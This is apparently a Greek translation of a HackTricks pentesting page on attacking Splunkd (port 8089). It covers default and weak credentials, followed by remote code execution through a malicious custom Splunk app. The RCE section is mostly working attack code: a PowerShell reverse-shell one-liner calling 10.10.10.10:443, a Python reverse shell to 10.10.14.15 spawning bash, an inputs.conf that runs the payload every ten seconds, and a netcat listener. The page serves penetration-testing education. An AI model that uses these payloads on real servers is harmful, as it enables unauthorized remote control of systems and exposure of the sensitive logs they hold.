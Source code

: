 # 8089 - Πεντεστάροντας το Splunkd

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## **Βασικές Πληροφορίες**

Το Splunk είναι ένα εργαλείο **ανάλυσης καταγραφικών αρχείων** που παίζει ένα κρίσιμο ρόλο στη **συλλογή, ανάλυση και οπτικοποίηση δεδομένων**. Αν και η αρχική του σκοπιμότητα δεν ήταν να λειτουργήσει ως εργαλείο **SIEM (Security Information and Event Management)**, έχει κερδίσει δημοτικότητα στον τομέα της **παρακολούθησης ασφάλειας** και της **ανάλυσης επιχειρηματικών δεδομένων**.

Οι εγκαταστάσεις του Splunk χρησιμοποιούνται συχνά για να αποθηκεύουν **ευαίσθητα δεδομένα** και μπορούν να λειτουργήσουν ως **πολύτιμη πηγή πληροφοριών** για πιθανούς επιτιθέμενους αν καταφέρουν να παραβιάσουν το σύστημα.
**Προεπιλεγμένη θύρα:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
Ο **διακομιστής web του Splunk τρέχει από προεπιλογή στη θύρα 8000**.
{% endhint %}

## Απαρίθμηση

### Δωρεάν Έκδοση

Η δοκιμαστική έκδοση του Splunk Enterprise μετατρέπεται σε **δωρεάν έκδοση μετά από 60 ημέρες**, η οποία **δεν απαιτεί πιστοποίηση**. Δεν είναι ασυνήθιστο για τους διαχειριστές συστήματος να εγκαταστήσουν μια δοκιμαστική έκδοση του Splunk για να το δοκιμάσουν, η οποία **στη συνέχεια ξεχνιέται**. Αυτό θα μετατραπεί αυτόματα στη δωρεάν έκδοση που δεν έχει καμία μορφή πιστοποίησης, δημιουργώντας ένα κενό ασφαλείας στο περιβάλλον. Ορισμένες οργανώσεις μπορεί να επιλέξουν τη δωρεάν έκδοση λόγω περιορισμένων προϋπολογιστικών περιορισμών, χωρίς να κατανοούν πλήρως τις επιπτώσεις της έλλειψης διαχείρισης χρηστών/ρόλων.

### Προεπιλεγμένα Διαπιστευτήρια

Σε παλαιότερες εκδόσεις του Splunk, τα προεπιλεγμένα διαπιστευτήρια είναι **`admin:changeme`**, τα οποία εμφανίζονται ευκολότερα στη σελίδα σύνδεσης.\
Ωστόσο, **η τελευταία έκδοση του Splunk** ορίζει **διαπιστευτήρια** **κατά τη διάρκεια της διαδικασίας εγκατάστασης**. Εάν τα προεπιλεγμένα διαπιστευτήρια δεν λειτουργούν, αξίζει να ελέγξετε για κοινά αδύναμα συνθηματικά όπως `admin`, `Welcome`, `Welcome1`, `Password123`, κλπ.

### Λήψη Πληροφοριών

Αφού συνδεθείτε στο Splunk, μπορούμε να **περιηγηθούμε στα δεδομένα**, να εκτελέσουμε **αναφορές**, να δημιουργήσουμε **ταμπλό**, να **εγκαταστήσουμε εφαρμογές** από τη βιβλιοθήκη Splunkbase και να εγκαταστήσουμε προσαρμοσμένες εφαρμογές.\
Μπορείτε επίσης να εκτελέσετε κώδικα: Ο Splunk έχει πολλούς τρόπους **εκτέλεσης κώδικα**, όπως εφαρμογές Django πλευράς εξυπηρετητή, σημεία άκρης REST, σεναρίων εισαγωγής και σεναρίων ειδοποίησης. Ένας κοινός τρόπος απόκτησης απομακρυσμένης εκτέλεσης κώδικα σε έναν διακομιστή Splunk είναι μέσω της χρήσης ενός σεναρίου εισαγωγής.

Επιπλέον, καθώς το Splunk μπορεί να εγκατασταθεί σε κεντρικούς υπολογιστές Windows ή Linux, μπορούν να δημιουργηθούν σενάρια εισαγωγής για την εκτέλεση σεναρίων Bash, PowerShell ή Batch.

### Shodan

* `Έκδοση Splunk`

## RCE

### Δημιουργία Προσαρμοσμένης Εφαρμογής

Μια προσαρμοσμένη εφαρμογή μπορεί να εκτελέσει **Python, Batch, Bash ή PowerShell σενάρια**.\
Σημειώστε ότι το **Splunk έρχεται με εγκατεστημένο Python**, οπότε ακόμη και σε συστήματα **Windows** θα μπορείτε να εκτελέσετε κώδικα Python.

Μπορείτε να χρησιμοποιήσετε [**αυτό**](https://github.com/0xjpuff/reverse\_shell\_splunk) το πακέτο Splunk για να μας βοηθήσει. Ο κατάλογος **`bin`** σε αυτό το αποθετήριο περιέχει παραδείγματα για [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) και [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Ας περιηγηθούμε σε αυτό βήμα-βήμα.

Για να το επιτύχουμε αυτό, πρέπει πρώτα να δημιουργήσουμε μια προσαρμοσμένη εφαρμογή Splunk χρησιμοποιώντας την ακόλουθη δομή καταλόγου:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Ο φάκελος **`bin`** θα περιέχει οποιαδήποτε **σενάρια πρόκειται να εκτελέσουμε** (σε αυτήν την περίπτωση, ένας αντίστροφος κέλυφος PowerShell), και ο προεπιλεγμένος φάκελος θα έχει το αρχείο `inputs.conf` μας. Το αντίστροφο κέλυφος μας θα είναι ένας **PowerShell εντολή σε μία γραμμή:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Το αρχείο [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) λέει στο Splunk **ποιο script να εκτελέσει** και οποιεσδήποτε άλλες συνθήκες. Εδώ ορίζουμε την εφαρμογή ως ενεργοποιημένη και λέμε στο Splunk να εκτελεί το script κάθε 10 δευτερόλεπτα. Το διάστημα είναι πάντα σε δευτερόλεπτα και η είσοδος (script) θα εκτελεστεί μόνο αν αυτή η ρύθμιση είναι παρούσα.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Χρειαζόμαστε το αρχείο `.bat`, το οποίο θα εκτελείται όταν εγκαθίσταται η εφαρμογή και θα εκτελεί την εντολή PowerShell.

Το επόμενο βήμα είναι να επιλέξουμε `Εγκατάσταση εφαρμογής από αρχείο` και να ανεβάσουμε την εφαρμογή.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

Πριν ανεβάσουμε την κακόβουλη προσαρμοσμένη εφαρμογή, ας ξεκινήσουμε έναν ακροατή χρησιμοποιώντας το Netcat ή το [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Στη σελίδα `Μεταφόρτωση εφαρμογής`, κάντε κλικ στο πλήκτρο `Αναζήτηση`, επιλέξτε το tarball που δημιουργήσαμε προηγουμένως και κάντε κλικ στο `Μεταφόρτωση`. Αμέσως μόλις μεταφορτώσουμε την εφαρμογή, λαμβάνουμε έναν αντίστροφο κέλυφος ως κατάσταση της εφαρμογής που αυτόματα αλλάζει σε `Ενεργοποιημένη`.

#### Linux

Εάν είχαμε να κάνουμε με έναν **Linux υπολογιστή**, θα χρειαζόμασταν να **επεξεργαστούμε το σενάριο Python `rev.py`** πριν δημιουργήσουμε το tarball και μεταφορτώσουμε την προσαρμοσμένη κακόβουλη εφαρμογή. Το υπόλοιπο της διαδικασίας θα ήταν το ίδιο, και θα λάμβαναμε μια σύνδεση αντίστροφου κελύφους στον ακροατή Netcat μας και θα ξεκινούσαμε.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Ανέβασμα Προνομίων

Στην ακόλουθη σελίδα μπορείτε να βρείτε μια εξήγηση για το πώς αυτή η υπηρεσία μπορεί να καταχραστεί για να αναβαθμιστούν τα προνόμια και να αποκτηθεί μόνιμη παρουσία:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Συμμετάσχετε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας στο hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
